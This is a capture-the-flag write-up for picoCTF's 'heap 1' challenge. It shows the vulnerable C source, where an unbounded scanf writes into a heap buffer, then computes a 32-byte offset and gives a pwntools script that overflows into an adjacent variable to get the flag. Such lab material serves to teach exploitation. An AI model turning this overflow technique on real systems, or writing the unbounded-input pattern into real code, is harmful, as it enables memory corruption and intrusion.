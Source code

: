 # heap 1

This challenge from [picoCTF](https://play.picoctf.org/practice/challenge/439) is a basic heap overflow where we need to change a variable content from `bico` to `pico`.

When we connect to the remote we can see this:

```
Welcome to heap1!
I put my data on the heap so it should be safe from any tampering.
Since my data isn't on the stack I'll even let you write whatever info you want to the heap, I already took care of using malloc for you.

Heap State:
+-------------+----------------+
[*] Address   ->   Heap Data
+-------------+----------------+
[*]   0x653e9e0ad6b0  ->   pico
+-------------+----------------+
[*]   0x653e9e0ad6d0  ->   bico
+-------------+----------------+

1. Print Heap:          (print the current state of the heap)
2. Write to buffer:     (write to your own personal block of data on the heap)
3. Print safe_var:      (I'll even let you look at my variable on the heap, I'm confident it can't be modified)
4. Print Flag:          (Try to print the flag, good luck)
5. Exit

Enter your choice:
```

Let's look in the source code to see how it deals with the heap.

```c
void init() {
    printf("\nWelcome to heap1!\n");
    printf(
        "I put my data on the heap so it should be safe from any tampering.\n");
    printf("Since my data isn't on the stack I'll even let you write whatever "
           "info you want to the heap, I already took care of using malloc for "
           "you.\n\n");
    fflush(stdout);
    input_data = malloc(INPUT_DATA_SIZE);
    strncpy(input_data, "pico", INPUT_DATA_SIZE);
    safe_var = malloc(SAFE_VAR_SIZE);
    strncpy(safe_var, "bico", SAFE_VAR_SIZE);
}
```
```c
void write_buffer() {
    printf("Data for buffer: ");
    fflush(stdout);
    scanf("%s", input_data);
}
```

# Exploitation

Looking at the heap:

```
+-------------+----------------+
[*] Address   ->   Heap Data
+-------------+----------------+
[*]   0x653e9e0ad6b0  ->   pico
+-------------+----------------+
[*]   0x653e9e0ad6d0  ->   bico
+-------------+----------------+
```

we can see that the `input_data` address is `0x653e9e0ad6b0`, and `safe_var` is at `0x653e9e0ad6d0`. The difference between the two addresses is **32 bytes** in decimal. Also the `scanf` does not check for the input size weach mean we can overide on the `safe_var` and get the flag.

# Solve:

```py

from pwn import *


payload = "1"*32 + "pico"

r = remote("tethys.picoctf.net", 52973)
r.recvuntil(b"Enter your choice:")
r.sendline(b'2')
r.recvuntil(b' buffer:')
r.sendline(payload.encode())
r.recvuntil(b"Enter your choice:")
r.sendline(b'4')
r.interactive()
```